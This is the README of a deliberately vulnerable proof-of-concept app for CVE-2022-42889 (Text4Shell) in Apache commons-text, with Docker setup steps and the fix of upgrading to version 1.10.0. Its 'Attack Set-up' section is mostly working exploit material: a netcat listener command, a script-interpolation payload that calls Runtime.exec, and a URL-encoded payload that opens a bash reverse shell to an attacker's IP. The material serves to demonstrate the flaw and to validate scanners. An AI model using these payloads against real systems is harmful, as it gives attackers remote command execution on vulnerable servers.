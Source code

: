 # CVE-2022-42889 PoC Test Application
This is a vulnerable application developed as a Proof of Concept for the vulnerability [CVE-2022-42889](https://nvd.nist.gov/vuln/detail/CVE-2022-42889). 

# Vulnerable app set-up
You can use Docker to be able to run this PoC:

1. Docker build

```
   docker build --tag=text4shell-poc .
```

2. Docker run

```
   docker run -p 80:8080 text4shell-poc
```

3. Test the vulnerable app

```
   http://localhost/
```

# Attack Set-up

1. Reverse TCP listener
```
   sudo apt install rlwrap
```
```
   sudo rlwrap nc -nlvp 443
```
2. Payload
```
   ${script:javascript:java.lang.Runtime.getRuntime().exec'<Command to Execute>’)}
```
3. Encoded payload for RCE
```
  %24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime%28%29.exec%28%27nc%20<Attacker's IP>%20<Attacker's port>%20-e%20%2Fbin%2Fbash%27%29%7D
```

Recommended URL encoder for successful exploit demonstration: [https://www.urlencoder.org/](https://www.urlencoder.org/).

Reverse Shell generator [Generate Reverse Shell](https/www.revshells.com/)

Alternatively you can validate the effectiveness of scanning tools such as [text4shell-scan](https://github.com/securekomodo/text4shell-scan)



# The Fix
The fix for this is to update your instances of `commons-text` to versions `1.10.0` or later.


# Author
*Bryan Smith*
* Twitter: [https://twitter.com/securekomodo](https://twitter.com/securekomodo)
